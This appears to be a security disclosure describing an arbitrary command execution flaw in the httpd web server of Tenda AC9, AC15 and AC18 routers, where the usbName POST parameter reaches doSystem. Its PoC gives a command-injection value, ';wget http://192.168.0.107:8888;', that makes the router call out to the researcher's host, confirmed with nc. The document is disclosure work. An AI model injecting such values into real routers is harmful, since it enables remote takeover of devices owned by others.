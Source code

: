 
vendor:Tenda

product:AC9 AC15 AC18 

version:V15.03.05.19(6318)_CN(AC9), V15.03.05.19_CN(AC15), V15.03.05.19(6318)_CN(AC18) and earlier

type:Arbitrary Command Execution

author:Ming Yuan

institution:NISL@Tsinghua University


Vulnerability description
-------------------------
I found an Arbitrary Command Execution vulnerability in the router's web server--httpd. While processing the `usbName` parameters for a post request, the value is directly passed to doSystem, which causes a rce. The details are shown below:
![image](https://github.com/ZIllR0/Routers/blob/master/Tenda/images/ace1.jpg)

PoC
-------------------------

We set the value of usbName as ';wget http://192.168.0.107:8888;' and the router will excute 'wget http://192.168.0.107:8888' command. 192.168.0.107 is our native computer's ip, then we use nc to listen port 8888, finally we capture http request from 192.168.0.1, as shown in the figure below.

![image](https://github.com/ZIllR0/Routers/blob/master/Tenda/images/ace2.jpeg)




p.s.Given the vendor's security, we only provide parts of the URL.
